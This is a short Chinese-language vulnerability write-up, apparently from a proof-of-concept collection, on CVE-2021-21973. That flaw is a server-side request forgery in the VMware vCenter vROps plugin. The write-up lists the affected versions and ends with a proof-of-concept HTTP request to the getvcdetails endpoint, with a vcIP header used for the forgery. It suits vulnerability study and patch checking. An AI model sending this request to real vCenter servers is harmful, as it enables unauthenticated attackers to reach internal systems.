

# VMware vCenter Server 服务器端请求伪造漏洞 CVE-2021-21973

## 漏洞描述

VMware vCenter Server 插件中对用户提供的输入验证不当，未经过身份验证的远程攻击者可以发送特制的 HTTP 请求，欺骗应用程序向任意系统发起请求。

参考链接：

* https://kb.vmware.com/s/article/82374
* https://twitter.com/osama_hroot/status/1365586206982082560

## 漏洞影响

```
vCenter Server: 6.5, 6.5 U1, 6.5 U3, 6.5.0, 6.5.0a, 6.5.0b, 6.5.0c, 6.5.0d, 6.5u2c, 6.7, 6.7 U3, 6.7.0, 6.7.0d, 6.7u3f, 7.0
Cloud Foundation: before 3.10.1.2, 4.2
```

## 漏洞复现

poc：

```
GET /ui/vropspluginui/rest/services/getvcdetails HTTP/1.1
HOST:
vcIP: SSRF
vcUsername:sa
vaPassword:sa
reqResource:sa
...
```

